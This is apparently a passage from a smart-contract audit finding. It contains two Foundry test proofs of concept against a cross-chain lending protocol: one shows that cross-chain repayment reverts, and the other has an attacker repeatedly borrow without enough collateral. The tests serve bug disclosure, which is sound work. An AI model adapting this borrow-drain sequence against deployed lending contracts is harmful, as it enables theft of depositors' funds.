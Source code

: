 ```solidity 
    function test_impossible_crosschain_repay(uint256 amountToSupply, uint256 amountToBorrow) public {
        amountToSupply = bound(amountToSupply, 1e18, 1e30);
        vm.deal(address(routerA), 1 ether);
        (address tokenA, address lTokenA) = _supplyA(amountToSupply);
        (address tokenB, address lTokenB) = _supplyB(amountToSupply * 2);
        uint256 maxBorrow = (lendStorageA.getMaxBorrowAmount(deployer, lTokenA) * 0.9e18) / 1e18;
        uint256 boundedBorrow = bound(amountToBorrow, 0.1e18, maxBorrow);
        address destToken = lendStorageA.underlyingToDestUnderlying(tokenA, CHAIN_B_ID);
        require(destToken != address(0), "Token mapping not set up correctly");
        uint256 initialTokenBalance = IERC20(destToken).balanceOf(deployer);
        vm.startPrank(deployer);
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(deployer, tokenA, boundedBorrow);
        routerA.borrowCrossChain(boundedBorrow, tokenA, CHAIN_B_ID);
        assertEq(
            IERC20(destToken).balanceOf(deployer) - initialTokenBalance,
            boundedBorrow,
            "Should receive correct amount of borrowed tokens"
        );
        IERC20(tokenB).approve(address(coreRouterB), type(uint256).max);
        //NOTE: 31337 is chainId of Chain A. Chain B's chainId is 1
        //The function will revert with ""Borrowed amount is 0"".
        routerB.repayCrossChainBorrow(deployer, boundedBorrow / 2, lTokenB, 31337); 
        vm.stopPrank();
    }
```

2. POC for Unlimited Borrow. Here attacker can borrow again and again without sufficient collateral.

```solidity 
    function test_unlimited_crosschain_borrow() public {
        uint256 amountToSupply = 1000e18;
        vm.deal(address(routerA), 1 ether);
        (address tokenA, address lTokenA) = _supplyA(amountToSupply);
        (address tokenB, address lTokenB) = _supplyB(amountToSupply);

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        ERC20Mock(tokenA).mint(attacker, 10e18);
        IERC20(tokenA).approve(address(coreRouterA), 10e18);
        coreRouterA.supply(10e18, tokenA);
        //borrow 5 times sucessfully
        routerA.borrowCrossChain(7e18, tokenA, CHAIN_B_ID);
        routerA.borrowCrossChain(7e18, tokenA, CHAIN_B_ID);
        routerA.borrowCrossChain(7e18, tokenA, CHAIN_B_ID);
        routerA.borrowCrossChain(7e18, tokenA, CHAIN_B_ID);
        routerA.borrowCrossChain(7e18, tokenA, CHAIN_B_ID);
        vm.stopPrank();
    }
```
